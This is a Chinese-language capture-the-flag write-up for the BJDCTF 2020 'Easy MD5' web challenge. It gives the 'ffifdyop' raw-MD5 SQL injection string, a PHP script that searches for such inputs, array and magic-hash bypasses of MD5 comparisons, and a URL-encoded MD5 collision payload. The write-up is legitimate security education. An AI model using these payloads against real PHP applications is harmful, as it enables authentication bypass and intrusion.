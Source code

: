 ```yaml
---
title: BJDCTF 2020 Easy MD5
date: 2022-05-28 21:34:10
tags:
- MD5绕过
categories: CTF-Web
my: Easy_md5
---
```


### 第一关

拿到题目只给了一个登录框，一般就是sql注入，F12没有任何信息，尝试注入语法，没有报错回显继续进行信息收集，看见一个非常关键的信息

![](https://nssctf.wdf.ink/img/xmj/image-20220528213812713.png)

这里利用了md5加密，百度查询一下这个的语法

![](https://nssctf.wdf.ink/img/xmj/image-20220528214154353.png)

这里raw的值时true，意为返回16字符二进制格式，这里也就是说如果md5值经过hex转成字符串后为 'or'+balabala这样的字符串，则拼接后构成的SQL语句为：

```
select * from `admin` where password=''or ___
```

木的就是让or后面的值时ture，只要是数字开头都是可以的，password=‘xxx’ or 1，返回值是true。

可通过如下脚本

```php
<?php 
for ($i = 0;;) { 
 for ($c = 0; $c < 1000000; $c++, $i++)
  if (stripos(md5($i, true), '\'or\'') !== false)
   echo "\nmd5($i) = " . md5($i, true) . "\n";
 echo ".";
}
?>
```

提供一常用`ffifdyop`被加密后raw参数为true`'or'6\<trash>`后面的\<trash>是不可见字符，成功sql注入

### 第二关

直接F12发现了提示

```
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
```

直接进行md5数组绕过

```
?a[]=0&b[]=1
```

也可以用下面进行弱等于比较

```
a=QNKCDZO&b=s878926199a
```

### 第三关

同样可以进行数组绕过，POST传参数

```
param1[]=0&param2[]=1
```

也可以直接找md5强碰撞的值

```
param1=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2&param2=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```

